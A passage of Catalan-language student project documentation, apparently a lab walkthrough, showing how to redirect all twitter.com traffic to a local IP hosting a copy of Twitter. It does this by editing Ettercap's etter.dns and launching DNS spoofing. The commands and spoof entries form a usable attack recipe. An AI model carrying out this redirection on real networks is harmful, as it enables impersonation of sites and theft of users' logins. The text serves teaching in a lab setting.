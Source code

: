 ![](https://github.com/KeshiKiD03/asixproject2k22/blob/main/Official%20Documentation/Hacking%20&%20Pentesting/DNS%20Spoofing/Photos/Suplantació.png?raw=true)
> __Img Source__: *@Aaron & @Cristian 's GitHub*
<br>

Com podem observar la pàgina de Twitter està a la nostra IP 10.200.243.137 al port 80.

Ara necessitem que tot el tràfic per a twitter.com sigui redirigit a la meva IP. Utilitzarem DNS Spoof que està disponible a ETTERCAP.

S'ha de canviar el contigut del fitxer etter.dns per a que twitter.com apunto a la nostra IP.

`apt-get install mlocate`

`updatedb`

`locate etter.dns`

┌──(root㉿osboxes)-[/home/anonymous]
└─# locate etter.dns
/etc/ettercap/etter.dns
/usr/share/ettercap/etter.dns.examples

`cp /etc/ettercap/etter.dns /etc/ettercap/etter.dns.original`

`vi /etc/ettercap/etter.dns`

```
*.twitter.com   A       10.200.243.137
www.twitter.com PTR     10.200.243.137

www.alor.org    A       127.0.0.1
www.naga.org    A       127.0.0.1
```

__Obrim Ettercap.__


![](https://github.com/KeshiKiD03/asixproject2k22/blob/main/Official%20Documentation/Hacking%20&%20Pentesting/DNS%20Spoofing/Photos/Ettercap.png?raw=true)